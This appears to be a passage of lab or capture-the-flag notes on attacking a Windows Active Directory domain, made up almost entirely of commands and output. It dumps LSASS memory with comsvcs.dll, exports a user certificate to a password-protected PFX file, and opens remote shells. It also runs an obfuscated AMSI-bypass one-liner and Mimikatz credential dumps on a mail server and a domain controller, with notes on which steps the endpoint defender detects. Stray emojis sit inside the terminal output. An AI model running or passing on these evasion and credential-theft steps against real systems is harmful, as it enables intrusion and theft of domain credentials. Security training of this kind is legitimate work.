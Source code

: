 ```
C:\Users\jumpone$>tasklist /FI "IMAGENAME eq lsass.exe"

Image Name                     PID  Session Name        Session#    Mem Usage
========================= ========  ================ =========== ============
lsass.exe                      720 📌 Services                   0     22,704 K

C:\Users\jumpone$>rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 720 C:\Users\Public\lsass.dmp full

Access is denied.
❌
```

⚠️ Note that the above command fails and will result in a detection in MDE.
⚠️ Note that if we try to extract certificates using PowerShell, that is also flagged by MDE.

Start a process as `pawadmin` using `asktgt` and run the following commands.

```
PS C:\Windows\system32> winrs -r:us-jump3 cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\pawadmin>
🚀

C:\Users\pawadmin>set u

USERDNSDOMAIN=US.TECHCORP.LOCAL
USERDOMAIN=US
USERDOMAIN_ROAMINGPROFILE=US
USERNAME=pawadmin 👤
USERPROFILE=C:\Users\pawadmin
```

```
C:\Users\pawadmin>powershell

PS C:\Users\pawadmin> ls cert:\LocalMachine\My

   PSParentPath: Microsoft.PowerShell.Security\Certificate::LocalMachine\My

Thumbprint                                   Subject
----------                                   -------
5FA4181469C12D2DFF98E3E5EB490B60284FE3AC 📌  E=pawadmin@techcorp.local, CN=pawadmin, CN=Users, DC=us, DC=techcorp, DC=l...

PS C:\Users\pawadmin> ls cert:\LocalMachine\My\5FA4181469C12D2DFF98E3E5EB490B60284FE3AC | Export-PfxCertificate -FilePath C:\Users\Public\pawadmin.pfx -Password (ConvertTo-SecureString -String 'P@ssw0rd1!' -Force -AsPlainText)

    Directory: C:\Users\Public

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/27/2025  11:02 AM           4847 pawadmin.pfx 📜
```

---
---

[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'